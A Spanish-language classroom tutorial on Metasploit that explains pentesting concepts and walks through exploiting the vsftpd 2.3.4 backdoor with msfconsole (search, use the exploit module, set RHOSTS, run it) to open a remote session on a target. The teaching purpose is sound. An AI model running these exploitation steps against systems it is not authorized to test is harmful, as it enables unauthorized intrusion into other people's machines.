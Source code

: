 ```yaml
---
title: "Tutorial: Metasploit"
date: 2023-01-01 9:00:00 +0100
categories: [Sistemas Microinformáticos y Redes, Seguridad Informática]
tags: [seguridad informática, smr, teoría, seguridad activa]
img_path: /assets/img/tutorial-metasploit/
---
```


## ¿Qué es Metasploit?

Metasploit es una herramienta software muy relacionada con lo que se conoce como "pruebas de intrusión" o "Pentesting". Como ya se ha estudiado previamente, estas pruebas se realizan en auditorías de sistemas informáticos en red, para saber cómo alguien con malas intenciones podría manipular nuestra red o nuestros sistemas en red. Mediante el uso de herramientas de pruebas de penetración, los profesionales de la seguridad informática pueden, en cualquier etapa de desarrollo o implementación, examinar redes y aplicaciones en busca de fallos y vulnerabilidades que comprometan al sistema.

Una de esas herramientas de Pentesting más conocidas es el proyecto Metasploit. Metasploit es un software de código abierto, construido en Ruby, y actualmente propiedad de la empresa de software de seguridad Rapid7. La herramienta está enfocada a la realización de pruebas para  auditores de seguridad y equipos Red Team y Blue Team (entre los profesionales de la seguridad informática, el Red Team es elequipo ofensivo o encargado del hacking ético, que hace pruebas de intrusión, y el BlueTeam es el equipo que lleva a cabo la securización y toda la parte defensiva).

<iframe width="560" height="315" src="https://www.youtube.com/embed/-B7UBbhewuw" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

## Características principales de Metasploit

Es una herramienta muy completa que tiene muchísimos "exploits", es decir, software para atacar a vulnerabilidades conocidas de otro software. En estos exploits, se pueden cargar otros módulos, llamados payloads, que son los códigos que permiten explotar dichas vulnerabilidades de distintas formas.

Dispone de distintos tipo de módulos, por ejemplo, los encoders, que son una especie de códigos de cifrado para evasión de antivirus o sistemas de seguridad perimetral.
Otra de las ventajas de este framework es que nos permite interactuar con herramientas externas, como Nmap o Nessus, útiles para descubrir información sobre los sistemas a los que se desee "atacar" o "auditar".

Aunque nosotros usaremos Metasploit desde KaliLinux (en Kali Linux ya viene instalado Metasploit Pro) se trata de un software multiplataforma y gratuito (aunque tiene una versión de pago, en la que se ofrecen exploits ya desarrollados). De todas formas, la versión gratuita es bastante amplia, y muy interesante porque contiene todas las vulnerabilidades públicas.
En conclusión, se trata de una plataforma imprescindible para todos los analistas de seguridad, esencial para descubrir vulnerabilidades ocultas utilizando diversas herramientas y utilidades. Esta herramienta  permite ponernos en la piel de un pirata informático y utilizar las mismas técnicas para explorar e infiltrarse en redes y servidores.

![Diagrama de una arquitectura típica de Metasploit](metasploit-guide-set-up.png)
_Diagrama de una arquitectura típica de Metasploit_

## Instalar Metasploit

```console
#apt install metasploit-framework
```

## Primeros pasos con Metasploit

Los pasos que debemos realizar para hacer una explotación de una vulnerabilidad de una aplicación en una máquina son los pasos típicos de un “pentesting” o test de intrusión.

### Detección de vulnerabilidades

En esta fase, se realizará un escáner de puertos, utilizando la herramienta ya conocida nmap, con la que buscaremos servicios instalados en esta máquina, así como las versiones de estos servicios. Leer el artículo [Tutorial: Nmap](/posts/tutorial-nmap).

Otra opción, es utilizar nmap solo para la detección de equipos de una red y posteriormente hacer el análisis de vulnerabilidades con Nessus. Leer el artículo [Tutorial: Nessus](/posts/tutorial-nessus)

### Explotación de vulnerabilidad conocida

Iniciamos metasploit desde linea de comandos con el comando:

```console
$msfconsole
```

Buscamos en Metasploit si tiene algún EXPLOIT para esta aplicación de servidor FTP. Esto se hace con el comando `search`.

```console
>search vsftpd
```

Vemos que Metasploit tiene disponible un Exploit para esta aplicación. Una vez que nos despliegue el índice de exploits disponibles para la aplicación vsftpd, podemos usar el numero de índice del Exploit y el comando info, para obtener información detallada de este Exploit.

```console
>info 0
```

Ahora tenemos que entrar dentro del exploit, es decir, decirle a la aplicación Metasploit que vamos a utilizar dicho Exploit. Para ello, se usa el comando:

```console
>use <nombre completo del exploit>
```

Ejemplo de uso:

```console
>use exploit/unix/ftp/vsftpd_234_backdoor
```

Una vez dentro de cada exploit disponible, cada uno tiene una serie de opciones que podemos utilizar.

```console
>show options
```

Establecemos el host:

```console
>set RHOSTS <dirección IP objetivo>
```

Ejecutamos el exploit:

```console
>exploit
```

Si la ejecución del exploit tiene éxito nos indicará que hay una sesión abierta en la máquina atacada, es decir, hemos conseguido establecer una sesión remota desde el equipo Kali Linux a la máquina vulnerable, y estamos dentro de ella. A partir de aquí ya, podemos realizar cualquier modificación en los archivos del sistema o aplicaciones instaladas en dicha máquina con fines maliciosos.
